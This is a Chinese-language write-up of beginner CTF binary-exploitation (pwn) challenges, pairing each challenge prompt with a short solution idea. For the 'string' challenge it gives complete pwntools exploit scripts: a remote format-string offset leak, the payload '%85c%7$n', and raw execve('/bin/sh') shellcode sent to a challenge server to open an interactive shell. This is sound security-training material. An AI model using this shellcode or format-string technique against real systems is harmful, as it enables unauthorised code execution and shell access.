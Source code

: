 ## pwn新手练习区
### get_shell
题目：运行就能拿到shell呢，真的

思路：真的

### CGfsb296
题目：菜鸡面对着pringf发愁，他不知道prinf除了输出还有什么作用

思路：利用格式化字符串漏洞利用方法读写任意地址

### when_did_you_born12
题目：只要知道你的年龄就能获得flag，但菜鸡发现无论如何输入都不正确，怎么办

思路：简单的栈溢出，利用字符串变量覆盖另一个变量

### hello_pwn
题目：pwn！，segment fault！菜鸡陷入了深思

思路：简单的栈溢出，利用字符串变量覆盖另一个变量

### level0
题目：菜鸡了解了什么是溢出，他相信自己能得到shell

思路：简单的64位栈溢出

### level2
题目：菜鸡请教大神如何获得flag，大神告诉他‘使用`面向返回的编程`(ROP)就可以了’

思路：简单的栈溢出，利用ROP获得shell

### cgpwn2
题目：菜鸡认为自己需要一个字符串

思路：简单的栈溢出，首先利用一个固定地址的全局变量保存/bin/sh字符串，然后利用ROP获得shell

### string
题目：菜鸡遇到了Dragon，有一位巫师可以帮助他逃离危险，但似乎需要一些要求

思路：简单的64位格式化字符串漏洞，先利用改漏洞修改一个堆上的变量，然后写入shellcode即可

解题：函数sub_400BB9存在格式化字符串漏洞，直接使用printf输出了format变量，这里首先确定可控制字符串format的偏移。有两种方法。

#### 偏移计算一：通过逆向和调试确定分析调用printf之前栈的分布

栈顶8个字节（没什么作用），往下8个字节的v2变量，再往下是format字符串。
```
rsp    --> 8字节垃圾
rsp+8  --> 8字节变量v2
rsp+16 --> format字符串
```

由于64位传参时，前6个参数使用寄存器，这里第一个参数是rdi，也就是format地址本身，后面5几个寄存器依次保存5个参数，栈顶8个字节是第6个参数，v2是第第7个参数，format是8个参数，因此偏移为8。

#### 偏移计算二：使用pwntools工具包自动计算
```python
context.bits = 64

def leak(payload):
    sh = remote('220.249.52.133', 59913)
    sh.recvuntil('be:\n')
    sh.sendline('1')
    sh.recvuntil('up?:\n')
    sh.sendline('east')
    sh.recvuntil('?:\n')
    sh.sendline('1')
    sh.recvuntil("'\n")
    sh.sendline('1')
    sh.recvuntil(':\n')
    sh.sendline(payload)
    info = sh.recvuntil('I hear')
    sh.close()
    return info

autofmt = FmtStr(leak)
print(autofmt.offset)
```

下面分析需求修改的变量，通过逆向分析，程序初始化了两个变量，一个为字符D，一个为字符U，如果这两个变量相等可以进入输入shellcode的逻辑，正常情况是不可能的，这里就利用字符串格式化漏洞实现。首先输入v2变量，内容为secret[0]的地址，然后format输入以下内容 %85c%7$n ,将第7个参数（v2）指向的内容写入85，也就是字符U。

后续输入shellcode可以使用pwntools，我这里是通过msf生成的。全部代码如下：
```python
def execute():
    sh = remote('220.249.52.133', 59913)
    info = sh.recvuntil('be:\n')
    info = str(info, encoding='utf8')
    addr = ''
    for line in info.split('\n'):
        if '[0]' in line:
            # 保存待修改变量地址
            addr = line.split(' ')[-1].strip()
            break
    print('secret addr:')
    print(addr)
    addr = int(addr, 16)

    sh.sendline('1')
    sh.recvuntil('up?:\n')
    sh.sendline('east')
    sh.recvuntil('?:\n')
    sh.sendline('1')
    sh.recvuntil("'\n")
    # 将待修改变量地址写入v2
    sh.sendline(str(addr).encode('utf8'))
    sh.recvuntil(':\n')
    
    # 利用这段payload修改变量
    payload = r'%85c%7$n'
    print(payload)
    sh.sendline(payload)
    print(sh.recvuntil('USE YOU SPELL'))

    # 写入shellcode
    shellcode = "\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00" + "\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6\x52\xe8" + "\x08\x00\x00\x00\x2f\x62\x69\x6e\x2f\x73\x68\x00\x56\x57" + "\x48\x89\xe6\x0f\x05"
    sh.sendline(shellcode)
    sh.interactive()
````

### guess_num
题目：菜鸡在玩一个猜数字的游戏，但他无论如何都银不了，你能帮助他么

思路：简单的栈溢出，覆盖产生随机数的种子变量，然后爆破随机数序列即可


### int_overflow
题目：菜鸡感觉这题似乎没有办法溢出，真的么?

思路：比较密码长度时将长度保存到了寄存器al中，当长度为259时，高字节被丢弃，al中为3，满足密码要求，同时259长度的密码在后面复制时存在简单栈溢出
